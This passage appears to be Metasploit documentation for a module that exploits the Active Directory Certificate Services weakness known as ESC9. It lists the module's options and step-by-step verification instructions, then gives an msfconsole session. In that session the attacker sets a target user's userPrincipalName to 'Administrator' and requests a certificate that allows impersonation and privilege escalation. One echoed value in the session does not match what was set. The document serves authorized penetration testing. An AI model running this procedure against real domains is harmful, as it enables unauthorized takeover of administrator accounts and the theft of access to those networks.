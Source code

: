 ### UPDATE_LDAP_OBJECT
The LDAP attribute to update, such as `userPrincipalName` or `dNSHostName`.

### UPDATE_LDAP_OBJECT_VALUE
The new value to set for the specified LDAP attribute, set this to the user name you wish to impersonate, e.g., `Administrator` if you're updating the `userPrincipalName`.
If you're updating the `dNSHostName`, set this to the desired DNS hostname, e.g., `host.domain.local` (it must be a valid FQDN in this case).

### ALT_UPN
An alternate UPN (User Principal Name) to set for the target user, e.g., `Administrator@domain.local`.

### ALT_SID
An alternate SID (Security Identifier) to set for the target user, e.g., `S-1-5-21-...`.

### ALT_DNS
An alternate DNS hostname to set for the target user, e.g., `host.domain.local`.

## Verification Steps

1. Start msfconsole
1. Do: `use esc_update_ldap_object`
1. Set the `RHOST`, `LDAPUsername`, `LDAPPassword` and `LDAPDomain` options - note these credentials need to have write access over the `TARGET_USERNAME`
1. Set `TARGET_USERNAME` to the user you want to update and then request a certificate for
1. Set the `UPDATE_LDAP_OBJECT` to either `userPrincipalName` or `dNSHostName` depending on the scenario you are exploiting
1. Set the `UPDATE_LDAP_OBJECT_VALUE` to the value you want to set for the `UPDATE_LDAP_OBJECT`, e.g., `Administrator`
1. Set `CA` to the name of the CA you want to request a certificate and `cert_template` to the name of the certificate template you want to use
1. Run the module
1. This should update the LDAP object attribute and request a certificate for the target user, which will be saved as a .pfx file.
1. If the target is vulnerable to the scenario you are exploiting, the pfx file will allow for privilege escalation.

## Scenarios

### ESC9 - Update userPrincipalName to Administrator
```
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldaprport 389
ldaprport => 389
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set target_username user2
target_username => user2
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapdomain kerberos.issue
ldapdomain => kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldappassword N0tpassword!
ldappassword => N0tpassword!
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapusername user1
ldapusername => user1
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set cert_template ESC9-Template
cert_template => SpencerTest
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ca kerberos-DC2-CA
ca => kerberos-DC2-CA
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT_VALUE Administrator
UPDATE_LDAP_OBJECT_VALUE => Administrator
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > run
```